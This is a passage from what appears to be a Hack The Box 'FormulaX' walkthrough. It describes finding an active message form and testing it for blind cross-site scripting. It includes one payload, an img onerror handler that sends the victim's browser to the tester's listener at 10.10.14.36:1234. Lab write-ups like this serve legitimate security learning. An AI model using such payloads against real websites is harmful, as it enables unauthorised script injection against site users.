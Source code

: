 We tried sending random data and this form seems to be active:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-10.png)

Let's check on **Blind XSS** using the following payload:

`<img src=x onerror="document.location='http://10.10.14.36:1234/'"/>`

We will send the message containing XSS payload:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-12.png)
